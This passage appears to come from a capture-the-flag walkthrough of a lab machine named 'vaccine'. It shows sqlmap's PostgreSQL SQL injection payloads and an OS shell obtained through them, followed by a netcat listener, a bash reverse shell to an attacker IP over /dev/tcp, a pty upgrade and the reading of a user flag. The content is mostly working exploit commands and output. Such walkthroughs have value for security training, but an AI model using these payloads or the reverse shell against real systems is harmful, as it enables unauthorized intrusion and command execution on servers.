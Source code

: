 ```
    Payload: search=any query' AND 5276=CAST((CHR(113)||CHR(122)||CHR(98)||CHR(107)||CHR(113))||(SELECT (CASE WHEN (5276=5276) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(118)||CHR(112)||CHR(112)||CHR(113)) AS NUMERIC)-- LMgD

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=any query';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=any query' AND 4021=(SELECT 4021 FROM PG_SLEEP(5))-- akZU
---
[18:37:26] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 19.10 or 20.04 or 20.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL
[18:37:26] [INFO] fingerprinting the back-end DBMS operating system
[18:37:27] [INFO] the back-end DBMS operating system is Linux
[18:37:27] [INFO] testing if current user is DBA
[18:37:28] [INFO] retrieved: '1'
[18:37:28] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[18:37:28] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> 

```

Obtained unstable shell

Turn on netcat listener.

Command
```bash
sudo nc -lvnp 443
```

Command
```bash
bash -c "bash -i >& /dev/tcp/10.10.15.102/443 0>&1"
```

Result
```
connect to [10.10.15.102] from (UNKNOWN) [10.129.239.5] 49296
bash: cannot set terminal process group (3820): Inappropriate ioctl for device
bash: no job control in this shell
postgres@vaccine:/var/lib/postgresql/11/main$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

CTRL+Z 'get out of netcat'

```BASH
stty raw - echp
postgres@vaccine:/var/lib/postgresql/11/main$ cd ..
cd ..
postgres@vaccine:/var/lib/postgresql/11$ cd ..
cd ..
postgres@vaccine:/var/lib/postgresql$ ls
ls
11  user.txt
postgres@vaccine:/var/lib/postgresql$ cat user.txt
cat user.txt
ec9b13ca4d6229cd5cc1e09980965bf7
postgres@vaccine:/var/lib/postgresql$ 
```

---